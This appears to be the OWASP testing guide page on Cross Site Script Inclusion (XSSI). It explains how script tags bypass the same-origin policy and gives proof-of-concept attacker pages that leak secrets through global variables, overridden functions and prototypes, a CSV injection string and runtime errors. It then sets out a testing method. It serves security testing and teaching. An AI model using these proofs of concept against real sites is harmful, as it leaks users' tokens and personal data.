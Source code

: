 # Summary

Cross Site Script Inclusion (XSSI) vulnerability allows sensitive data leakage across-origin or cross-domain boundaries. Sensitive data could include authentication related data (login states, cookies, auth tokens, session IDs, etc.), user personal or sensitive personal data (email addresses, phone numbers, credit card details, social security numbers, etc.). XSSI is a client-side attack similar to Cross Site Request Forgery (CSRF) but they have a different purpose: CSRF uses the authenticated user context to execute certain state-changing actions inside a victim’s page (eg. transfer money to the attacker's account, modify privileges, reset password, etc.) and XSSI uses JavaScript on the client side to leak sensitive data from authenticated sessions.

By default websites are only allowed to access data if they are from the same origin. This is a key application security principle and governed by the same-origin policy [defined by RFC 6454](https://tools.ietf.org/html/rfc6454). An origin is defined as the combination of URI scheme (http/https), host name, and port number. However, this policy is bypassed/not applicable for `<script>` HTML tag inclusions. This exception is necessary as without it websites would not be able to consume third party services, traffic analysis, or advertisement platforms, etc.

When the browser opens a website with `<script>` tags, the resources are fetched from the cross-origin domain and they run in the same context as the including site/browser which presents the opportunity to leak sensitive data. This is achieved in most cases using JavaScript (JS), however, the script source doesn't have to be a JS file, be served with `text/javascript` or `.js` extension. Some browsers are lenient and only block if it is served with an image type (`image/*`), a video type (`video/*`), an audio (`audio/*`) type, or `text/csv` [10].

Older browser's vulnerabilities (IE9/10) allowed data leakage via JavaScript error messages at runtime, but those vulnerabilties have now been patched by vendors and are considered less relevant. By setting the charset attribute of the `<script>` tag the attacker/tester can enforce UTF-16 encoding which allows data leakage for other data formats (e.g. JSON) in some cases. If you want to learn more about these please read  [Identifier based XSSI attacks MBSD Whitepaper](https://www.mbsd.jp/Whitepaper/xssi.pdf).
  
The following XSSI vulnerability cases will be discussed:

1. Leak sensitive data via global variables.
2. Leak sensitive data via global function parameters.
3. Leak sensitive data via non-JavaScript resource - CSV (Comma Separated Values) with quotations theft.
4. Leak sensitive data via JavaScript runtime errors.

## Example Leak Sensitive Data via Global Variables

1. An API key is stored in a JavaScript file with the URI `https://victim.com/internal/api.js` on the victim's website (victim.com) which is only accessible for authenticated users. The attacker/tester configures a website (attackingwebsite.com) and uses the <script> tag to refer to this JavaScript file in question.

`api.js` contents:

```javascript
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

2. The attacker/tester has configured a website (attackingwebsite.com) with the following:

`index.html` contents:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>"; 
    </script>
  </body>
</html>
```

3. The attacker lures the user to attackingwebsite.com via social engineering, phishing emails, etc. This step requires the user to authenticate first to victim.com before visiting attackingwebsite.com.

4. The user's browser fetches api.js and the sensitive data is leaked via the global JavaScript variable and displayed using innerHTML. 

## Example Leak Sensitive Data via Global Function Parameters

This example is similar to the previous one except in this case attackingwebsite.com uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

`api.js` contents:

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

`index.html` contents:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters 1</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

There are other XSSI vulnerabilities leaking sensitive data either via JavaScript prototype chains or global function calls. If you want to learn more about these please visit Sebastian Leike's page [4].

## Example Leak Sensitive Data via Non-Javascript Resource - CSV with Quotations Theft

To leak data the attacker/tester has to be able to inject JavaScript code into the CSV data. The following example is an excerpt from Takeshi Terada's identifier based XSSI attacks whitepaper [8]:

```

HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```

In this case using the ___ parts as injection points and inserting the `\"",$$$=function(){/*` string has the following result:

```

1,"\"",$$$=function(){/*","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"*/}//","zzz@example.com","03-0000-0099"
```

Gmail had a similar vulnerability in 2006 that allowed the extraction of user contacts in JSON[11]. In this case the data was received from Gmail and parsed by the browser JavaScript engine using an unreferenced Array constructor to leak the data. The attacker/tester could access this Array with the sensitive data by defining and overwriting the internal Array constructor like this:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking gmail contacts via JSON </title>
  </head>
  <body>
    <script>
      function Array() {
        // steal data
      }
    </script>
    <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
  </body>
</html>
```

## Example Leak Sensitive Data via Javascript Runtime Errors

Browsers normally present standardized Javascript error messages like "Script error.". However, in the case of IE9/10 runtime error messages provided additional details which could be used to leak data. For example, a website (victim.com) serves the following content at the URI `http://victim.com/service/csvendpoint` for authenticated users:

```

HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: 13

1,abc,def,ghi
```

This vulnerability could be exploited with the following:

```

<!--error handler -->
<script>window.onerror = function(err) {alert(err)}</script>
<!--load target CSV -->
<script src="http://victim.com/service/csvendpoint"></script>
```

When the browser tries to render the CSV content as JavaScript it fails and leaks the sensitive data:

![JavaScript runtime error message ](images/XSSI1.jpeg)

## How to Test

The methodology has the following steps:

1. Identify which endpoints are responsible for sending sensitive data, what parameters are required, and identify all relevant dynamically and statically generated JavaScript responses using authenticated user sessions. Pay special attention to sensitive data sent using JSONP. To find dynamically generated JavaScript responses generate authenticated and unauthenticated requests then compare/diff them. If they're different then the response is dynamic otherwise it's static. To simplify this task a purpose built Burp proxy plugin by Veit Hailperin can be used [2]. Make sure to check other filetypes in addition to JavaScript: XSSI is not limited to JavaScript files and is much more widespread.

2. Investigate if the sensitive data can be leaked using JavaScript:

- Using global variables [example](#example-leak-sensitive-data-via-global-variables)
- Overwriting global functions and parameters [example](#example-leak-sensitive-data-via-global-function-parameters)
- Using an old version of browser and exploiting JavaScript runtime error leak vulnerabilities [example](#example-leak-sensitive-data-via-javascript-runtime-errors)
- Data leak via prototype chaining by using the "this" keyword. In JavaScript "this" is dynamically scoped which means if a function is called upon an object, `this` will point to this object even though the called function might not belong to the object itself. This behavior can be used to leak data. In the following example from Sebastian Leike's page [4] the sensitive data is stored in an Array. The tester/attacker can override Array.prototype.forEach with an attacker-controlled function. If some code calls the forEach function on an array instance that contains sensitive values, the attacker-controlled function will be invoked with "this" pointing to the object that contains the sensitive data.

`javascript.js`

```javascript
...
(function() {
  var secret = ["578a8c7c0d8f34f5", "345a8b7c9d8e34f5"];

  secret.forEach(function(element) {
    // do something here
  });  
})();
...
```

The sensitive data can be leaked with the following JavaScript code:

```javascript
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```

## References

1. [RFC 6454: The Web Origin Concept](https://tools.ietf.org/html/rfc6454)
2. [W3schools - JSONP](https://www.w3schools.com/js/js_json_jsonp.asp)
3. [Wikipedia - JSONP](https://en.wikipedia.org/wiki/JSONP)
4. [Sebastian Lekies - Leaking Data Across Origins Via Dynamic Script Includes](http://sebastian-lekies.de/leak/)
5. [Veit Hailperin - Cross-Site Script Inclusion](https://www.scip.ch/en/?labs.20160414)
6. [Sebastian Lekies / Ben Stock: Your Script in My Page: What Could Possibly Go Wrong?](https://www.owasp.org/images/f/f3/Your_Script_in_My_Page_What_Could_Possibly_Go_Wrong_-_Sebastian_Lekies%2BBen_Stock.pdf)
7. [Sebastian Lekies, Ben Stock, Martin Wentzel and Martin Johns - Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)
8. [Takeshi Terada: Identifier based XSSI attacks (MBSD Technical Whitepaper)](https://www.mbsd.jp/Whitepaper/xssi.pdf)
9. [Veit Hailperin: The Tale of a Fameless but Widespread Vulnerability](https://www.owasp.org/images/9/9a/20160607-xssi-the_tale_of_a_fameless_but_widepsread_vulnerability-Veit_Hailperin.pdf)
10. [HackerOne XSSI – Stealing Multi Line Strings](https://blog.cm2.pw/h1-xssi/)
11. [Jeremiah Grossman blog - Advanced Web Attack Techniques using GMail](https://blog.jeremiahgrossman.com/2006/01/advanced-web-attack-techniques-using.html)
12. [A Codelab by Bruce Leban, Mugdha Bendre, and Parisa Tabriz](https://google-gruyere.appspot.com/part3#3__cross_site_script_inclusion)
13. [SameSite Cookie](https://tools.ietf.org/html/draft-west-first-party-cookies-07)

## Tools

1. [OWASP Zed Attack Proxy Project](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project)
2. [Veit Hailperin - Detect Dynamic JavaScript](https://github.com/luh2/DetectDynamicJS/blob/master/DetectDynamicJS.py)
